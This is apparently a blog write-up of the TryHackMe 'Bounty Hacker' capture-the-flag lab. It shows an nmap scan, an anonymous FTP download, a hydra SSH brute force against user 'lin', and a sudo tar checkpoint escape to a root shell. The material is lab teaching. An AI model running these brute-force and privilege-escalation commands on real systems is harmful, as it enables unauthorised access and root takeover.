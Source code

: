 ```yaml
---
layout: post
permalink: /posts/thm/bounty-hacker
title: "Bounty Hacker"
---
```


You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! <br/>

Okay, let's start our enumeration with nmap scan

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/bounty-hacker/nmap.png)

Good! From the nmap scan we can see there are open ports 21 FTP, 22 SSH and 80 HTTP. Now we need to find a task list which will probably be located on the FTP server. You can notice from the nmap result that anonymous login is allowed. Go and visit the FTP server.

```
ftp <IP>
```

with username anonymous

![ftp](/assets/images/thm/bounty-hacker/ftp.png)

We can download the files with the following command

```
get <FILE_NAME>
```

From the `task.txt` we have found a name which is probably a user likewise `locks.txt` looks like password wordlist. Let's try to bruteforce ssh using hydra.

```
hydra -l lin -P locks.txt 10.10.126.63 ssh
```

![hydra](/assets/images/thm/bounty-hacker/hydra.png)

Yep, as we thought it was a password wordlist. Now SSH to the machine.

```
ssh lin@<IP>
```

![shell](/assets/images/thm/bounty-hacker/shell.png)

Here is the first flag. Now we need to find way to escalate our privileges. The first thing that I always check is whether the current user has any permissions to execute sudo commands.

```
sudo -l
```

![sudo-l](/assets/images/thm/bounty-hacker/sudo-l.png)

We are in luck. Lin user has the right to execute `/bin/tar` as sudo. Go and visit our favourite site `https://gtfobins.github.io/gtfobins/tar/`

![gtfobins](/assets/images/thm/bounty-hacker/gtfobins.png)

Yes, it is as simple as that, just copy the command and execute it and you will have root access.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![root](/assets/images/thm/bounty-hacker/root.png)

Here we go, we are root. Find the root flag and you'll prove that you are an elite hacker.
